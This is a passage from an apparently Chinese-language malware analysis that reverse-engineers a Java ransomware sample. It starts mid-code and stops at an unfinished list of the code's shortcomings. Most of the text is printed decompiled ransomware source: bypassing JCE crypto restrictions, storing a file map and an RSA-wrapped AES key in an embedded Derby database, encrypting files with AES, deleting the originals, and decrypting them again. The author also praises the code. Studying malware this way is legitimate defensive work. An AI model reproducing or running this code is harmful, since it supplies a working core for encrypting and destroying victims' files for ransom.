final Field defaultPolicyField = jceSecurity.getDeclaredField("defaultPolicy");
defaultPolicyField.setAccessible(true);
final PermissionCollection defaultPolicy = (PermissionCollection)defaultPolicyField.get(null);
final Field perms = cryptoPermissions.getDeclaredField("perms");
perms.setAccessible(true);
((Map)perms.get(defaultPolicy)).clear();
final Field instance = cryptoAllPermission.getDeclaredField("INSTANCE");
instance.setAccessible(true);
defaultPolicy.add((Permission)instance.get(null));
System.out.println("Successfully removed cryptography restrictions");
}
catch (Exception e) {
System.out.println("Failed to remove cryptography restrictions" + e);
}
}
因为是在初始化的时候直接调用，并没有做判断，所以在最开始调用了isRestrictedCryptography()做了一下判断
private static boolean isRestrictedCryptography() {
return "Java(TM) SE Runtime Environment".equals(System.getProperty("java.runtime.name"));
}
这里主要用于确保后续有对某些类里字段的操作权限
继续GenKey()，先进行一个判断EmbeddedDatabase.CreateTable()，先创建一个表，如果表存在，返回true，如果不存在，则创建
public static boolean CreateTable() {
PreparedStatement preparedStatement = null;
boolean flag = false;
final String createTableSQL = "CREATE TABLE RansomTable(MapTable BLOB ,EncryptedKey VARCHAR(100))";
try {
preparedStatement = EmbeddedDatabase.conn.prepareStatement(createTableSQL);
System.out.println(createTableSQL);
preparedStatement.executeUpdate();
EmbeddedDatabase.conn.commit();
System.out.println("TableRansomTableis created!");
}
catch (SQLException e) {
System.out.println(e.getMessage());
if (DerbyUtils.tableAlreadyExists(e)) {
flag = true;
}
if (preparedStatement != null) {
try {
preparedStatement.close();
}
catch (SQLException e) {
e.printStackTrace();
}
}
}
finally {
if (preparedStatement != null) {
try {
preparedStatement.close();
}
catch (SQLException e2) {
e2.printStackTrace();
}
}
}
return flag;
}
类EmbeddedDatabase有一个static代码块，在第一次加载的时候执行一次，连接数据库，这里用的是derby
static {
Connection tempconn = null;
try {
Class.forName("org.apache.derby.jdbc.EmbeddedDriver");
tempconn = DriverManager.getConnection("jdbc:derby:RansomDB;create=true");
if (tempconn != null) {
System.out.println("connect success");
}
}
catch (Exception except) {
except.printStackTrace();
}
conn = tempconn;
}
GenKey()方法剩下的代码就是在初始化key了，加密方式是AES
继续StartEncryptProcess()，在初始化完key以及其它准备工作后，进行迭代，加密后的文件统一使用.aes后缀
while (iterator.hasNext()) {
final Map.Entry mentry = (Map.Entry)iterator.next();
final Object obj = mentry.getValue();
final ObjectMapper oMapper = new ObjectMapper();
final HashMap<String, String> Map = (HashMap<String, String>)oMapper.<HashMap<String, String>>convertValue(obj, (Class<HashMap<String, String>>)HashMap.class);
final Set mapset = Map.entrySet();
for (final Map.Entry entry : mapset) {
final File filein = new File(entry.getKey() + "." + entry.getValue());
final File fileout = new File(entry.getKey() + ".aes");
CryptoRansomware.EncryptFile(filein, fileout, aesKey);
}
}
对文件进行加密
CryptoRansomware.EncryptFile(filein, fileout, aesKey);
进行AES加密，加密完成删除源文件，并且输出已删除的文件路径
public static void EncryptFile(final File in, final File out, final SecretKeySpec aeskeySpec) {
try {
final Cipher aesCipher = Cipher.getInstance("AES/CFB8/NoPadding");
aesCipher.init(1, aeskeySpec, new IvParameterSpec(CryptoRansomware.ivBytes));
final FileInputStream is = new FileInputStream(in);
final CipherOutputStream os = new CipherOutputStream(new FileOutputStream(out), aesCipher);
copy(is, os);
is.close();
os.close();
}
catch (IOException ex) {
ex.printStackTrace();
}
catch (NoSuchPaddingException e) {
e.printStackTrace();
}
catch (NoSuchAlgorithmException e2) {
e2.printStackTrace();
}
catch (InvalidAlgorithmParameterException e3) {
e3.printStackTrace();
}
catch (InvalidKeyException e4) {
e4.printStackTrace();
}
final boolean bool = in.delete();
System.out.println("File deleted: " + bool);
}
在迭代完加密后，将记录信息保存到数据库
EmbeddedDatabase.InsertRecordIntoTable(containsFilters, CryptoRansomware.RetrieveEncryptedAesKey(pubkey, aesKey));
虽然这里就一句，但后面执行的代码多着，我们先看第二个参数
CryptoRansomware.RetrieveEncryptedAesKey(pubkey, aesKey)
pubkey是最开始APP类的公钥，第二个是AES加密的秘钥
public static String RetrieveEncryptedAesKey(final String pubkey, final SecretKeySpec AesKeyspec) throws SQLException, GeneralSecurityException {
return Encrypt(RsaKeyReader.loadPublicKey(pubkey), AesKeyspec);
}
再看这里的第一个参数RsaKeyReader.loadPublicKey(pubkey)，可以看出来，在APP类里显示的是Base64哈希过后的，这里先进行Base64还原，再处理公钥，哈希方式为RSA
public static PublicKey loadPublicKey(final String stored) throws GeneralSecurityException {
final byte[] data = Base64.decodeBase64(stored);
final X509EncodedKeySpec spec = new X509EncodedKeySpec(data);
final KeyFactory fact = KeyFactory.getInstance("RSA");
return fact.generatePublic(spec);
}
再来看Encrypt(RsaKeyReader.loadPublicKey(pubkey), AesKeyspec)，先将AES的秘钥进行Base64哈希，然后进行RSA加密，加密完后再进行Base64哈希
public static String Encrypt(final PublicKey pubKey, final SecretKeySpec aeskeySpec) {
String encryptedString = "";
try {
final String encodedKey = Base64.encodeBase64String(aeskeySpec.getEncoded());
final byte[] plainBytes = encodedKey.getBytes("UTF-8");
final Cipher cipher = Cipher.getInstance("RSA");
cipher.init(1, pubKey);
final byte[] encrypted = cipher.doFinal(plainBytes);
encryptedString = new String(Base64.encodeBase64(encrypted));
return encryptedString;
}
catch (NoSuchAlgorithmException e) {
e.printStackTrace();
}
catch (NoSuchPaddingException e2) {
e2.printStackTrace();
}
catch (BadPaddingException e3) {
e3.printStackTrace();
}
catch (IllegalBlockSizeException e4) {
e4.printStackTrace();
}
catch (InvalidKeyException e5) {
e5.printStackTrace();
}
catch (UnsupportedEncodingException e6) {
e6.printStackTrace();
}
return encryptedString;
}
那么回到最开始的保存到数据库的操作InsertRecordIntoTable()，数据插入，输出Insert Success
public static void InsertRecordIntoTable(final TreeMap<String, HashMap<String, String>> map, final String EncryptedKey) {
PreparedStatement preparedStatement = null;
final String insertTableSQL = "insert into RansomTable values(?,?)";
try {
preparedStatement = EmbeddedDatabase.conn.prepareStatement(insertTableSQL);
final byte[] buf = Serializer.Serialize(map);
preparedStatement.setBinaryStream(1, new ByteArrayInputStream(buf), buf.length);
preparedStatement.setString(2, EncryptedKey);
preparedStatement.executeUpdate();
EmbeddedDatabase.conn.commit();
System.out.println("Insert Success");
}
catch (SQLException e) {
System.out.println(e.getMessage());
}
catch (IOException e2) {
e2.printStackTrace();
}
finally {
if (preparedStatement != null) {
try {
preparedStatement.close();
}
catch (SQLException e3) {
e3.printStackTrace();
}
}
}
}
在将文件信息存储到数据库前会进行处理，转换成byte数组类型
final byte[] buf = Serializer.Serialize(map);
转成byte数组，其实看上面的返回值就可以
public static byte[] Serialize(final TreeMap<String, HashMap<String, String>> map) throws IOException {
final ByteArrayOutputStream baos = new ByteArrayOutputStream();
final ObjectOutputStream oos = new ObjectOutputStream(baos);
oos.writeObject(map);
oos.close();
return baos.toByteArray();
}
以上就是加密的所有过程，接下来分析解密过程
解密的分支
p.StartDecryptProcess(PrivateKey);
在具体分析前我们可以大概的猜到解密的过程，开始加密的时候将map转为byte数组，那么肯定先要将byte数组转为map，然后迭代用私钥进行解密，不熟悉RSA的同学建议去学习一下RSA的原理，公钥加密，私钥解密，同时公钥还可以作为加密者的身份认证作用
public void StartDecryptProcess(final String privKey) {
try {
final TreeMap<String, HashMap<String, String>> containsFilters = EmbeddedDatabase.GetMapFromTable();
final Set set = containsFilters.entrySet();
final Iterator iterator = set.iterator();
final SecretKeySpec aesKey = CryptoRansomware.RetrieveAesKey(privKey);
while (iterator.hasNext()) {
final Map.Entry mentry = (Map.Entry)iterator.next();
final Object obj = mentry.getValue();
final ObjectMapper oMapper = new ObjectMapper();
final HashMap<String, String> Map = (HashMap<String, String>)oMapper.<HashMap<String, String>>convertValue(obj, (Class<HashMap<String, String>>)HashMap.class);
final Set mapset = Map.entrySet();
for (final Map.Entry entry : mapset) {
final File filein = new File(entry.getKey() + "." + entry.getValue());
final File fileout = new File(entry.getKey() + ".aes");
CryptoRansomware.DecryptFile(fileout, filein, aesKey);
}
}
}
catch (NoSuchAlgorithmException e) {
e.printStackTrace();
}
catch (SQLException e2) {
e2.printStackTrace();
}
catch (GeneralSecurityException e3) {
e3.printStackTrace();
}
catch (NullPointerException e4) {
System.out.println("Map not Exists Encrypt First");
}
finally {
EmbeddedDatabase.DropTable();
}
}
将byte数组转为map对象
final TreeMap<String, HashMap<String, String>> containsFilters = EmbeddedDatabase.GetMapFromTable();
关键是调用Serializer.Deserialize();
public static TreeMap<String, HashMap<String, String>> GetMapFromTable() {
PreparedStatement preparedStatement = null;
TreeMap<String, HashMap<String, String>> map = null;
final String selectSQL = "SELECT MapTable FROM RansomTable ";
try {
preparedStatement = EmbeddedDatabase.conn.prepareStatement(selectSQL);
final ResultSet rs = preparedStatement.executeQuery();
if (rs.next()) {
final InputStream input = rs.getBinaryStream("MapTable");
map = Serializer.Deserialize(input);
return map;
}
}
catch (SQLException e) {
System.out.println(e.getMessage());
}
catch (Exception e2) {
return map;
}
finally {
try {
if (preparedStatement != null) {
preparedStatement.close();
}
}
catch (Exception ex) {
System.out.println("Exception during Resource.close()" + ex);
}
}
return map;
}
这里就相当于一个反序列化的过程了
public static TreeMap<String, HashMap<String, String>> Deserialize(final InputStream stream) throws Exception {
final ObjectInputStream ois = new ObjectInputStream(stream);
final Object obj = ois.readObject();
final ObjectMapper oMapper = new ObjectMapper();
final TreeMap<String, HashMap<String, String>> Map = (TreeMap<String, HashMap<String, String>>)oMapper.<TreeMap<String, HashMap<String, String>>>convertValue(obj, (Class<TreeMap<String, HashMap<String, String>>>)TreeMap.class);
return Map;
}
这样一来，就将数据库里的数据转为map对象了
初始化迭代器
final Set set = containsFilters.entrySet();
final Iterator iterator = set.iterator();
初始化key
final SecretKeySpec aesKey = CryptoRansomware.RetrieveAesKey(privKey);
前面把AES加密的时候先是使用了Base64哈希，在RSA加密，再Base64哈希
public static SecretKeySpec RetrieveAesKey(final String privKey) throws SQLException, GeneralSecurityException {
final String EncryptedAesKey = EmbeddedDatabase.SelectKeyFromTable();
return Decrypt(RsaKeyReader.loadPrivateKey(privKey), EncryptedAesKey);
}
这里先从数据库中获取各种加密哈希之后的AES秘钥
public static String SelectKeyFromTable() throws SQLException {
PreparedStatement preparedStatement = null;
String value = "";
final String selectSQL = "SELECT EncryptedKey FROM RansomTable ";
try {
preparedStatement = EmbeddedDatabase.conn.prepareStatement(selectSQL);
final ResultSet rs = preparedStatement.executeQuery();
if (rs.next()) {
value = rs.getString("EncryptedKey");
return value;
}
return value;
}
catch (SQLException e) {
System.out.println(e.getMessage());
}
catch (Exception e2) {
return value;
}
finally {
if (preparedStatement != null) {
preparedStatement.close();
}
}
return value;
}
RSA私钥的初始化，因为私钥进行了Base64哈希，所以需要先还原
public static PrivateKey loadPrivateKey(final String key64) throws GeneralSecurityException {
final byte[] clear = Base64.decodeBase64(key64);
final PKCS8EncodedKeySpec keySpec = new PKCS8EncodedKeySpec(clear);
final KeyFactory fact = KeyFactory.getInstance("RSA");
final PrivateKey priv = fact.generatePrivate(keySpec);
Arrays.fill(clear, (byte)0);
return priv;
}
AES秘钥先Base64还原，再RSA解密，再Base64还原
public static SecretKeySpec Decrypt(final PrivateKey privateKey, final String cipherText) {
SecretKeySpec aeskeyspec = null;
try {
final byte[] plainBytes = Base64.decodeBase64(cipherText.getBytes("UTF-8"));
final Cipher cipher = Cipher.getInstance("RSA");
cipher.init(2, privateKey);
final byte[] decrypteed = cipher.doFinal(plainBytes);
final String DecryptedString = new String(decrypteed, "UTF-8");
final byte[] decodedKey = Base64.decodeBase64(DecryptedString);
aeskeyspec = new SecretKeySpec(decodedKey, 0, decodedKey.length, "AES");
return aeskeyspec;
}
catch (NoSuchAlgorithmException e) {
e.printStackTrace();
}
catch (NoSuchPaddingException e2) {
e2.printStackTrace();
}
catch (BadPaddingException e3) {
e3.printStackTrace();
}
catch (UnsupportedEncodingException e4) {
e4.printStackTrace();
}
catch (IllegalBlockSizeException e5) {
e5.printStackTrace();
}
catch (InvalidKeyException e6) {
e6.printStackTrace();
}
return aeskeyspec;
}
迭代解密
while (iterator.hasNext()) {
final Map.Entry mentry = (Map.Entry)iterator.next();
final Object obj = mentry.getValue();
final ObjectMapper oMapper = new ObjectMapper();
final HashMap<String, String> Map = (HashMap<String, String>)oMapper.<HashMap<String, String>>convertValue(obj, (Class<HashMap<String, String>>)HashMap.class);
final Set mapset = Map.entrySet();
for (final Map.Entry entry : mapset) {
final File filein = new File(entry.getKey() + "." + entry.getValue());
final File fileout = new File(entry.getKey() + ".aes");
CryptoRansomware.DecryptFile(fileout, filein, aesKey);
}
}
解密的具体代码，最终会删除已解密的加密文件，并输出已解密的文件路径
public static void DecryptFile(final File in, final File out, final SecretKeySpec aeskeySpec) {
try {
final Cipher aesCipher = Cipher.getInstance("AES/CFB8/NoPadding");
aesCipher.init(2, aeskeySpec, new IvParameterSpec(CryptoRansomware.ivBytes));
final CipherInputStream is = new CipherInputStream(new FileInputStream(in), aesCipher);
final FileOutputStream os = new FileOutputStream(out);
copy(is, os);
is.close();
os.close();
}
catch (IOException ex) {
ex.printStackTrace();
}
catch (NoSuchPaddingException e) {
e.printStackTrace();
}
catch (NoSuchAlgorithmException e2) {
e2.printStackTrace();
}
catch (InvalidAlgorithmParameterException e3) {
e3.printStackTrace();
}
catch (InvalidKeyException e4) {
e4.printStackTrace();
}
final boolean bool = in.delete();
System.out.println("File deleted: " + bool);
}
那么整个样本的逆向分析到这里就已经结束了，接下来我们对照一下源码对比一下关键的地方
导入IDEA
前面说的第一处问题，其实反编译器直接标注出来也方便分析

第二处，逆向的时候这里还分了两个switch，直接700+行
这个地方一开始我觉得可能会有跨平台的问题，后面实验发现并没有

加密

加密完的效果，源文件被删除，后缀变成.aes，注意Successfully removed cryptography restrictions，既然走到这个分支，说明获取到的是Java(TM) SE Runtime Environment

解密

我们来实验一下获取Java(TM) SE Runtime Environment

作者使用的加密组合其实是一个哲学问题，RSA加密速度快，解密非常慢，AES加解密速度都能接受，所以使用AES加密文件，使用RSA来加密AES的秘钥，其中使用了不少Java 8的新特性，能搜到的资料并不多，看Java源码看得眼泪都要掉下来了，代码写的很漂亮，三观正，而且有些地方写的是真的好，很值得我这种菜鸟学习
有些地方也有不足：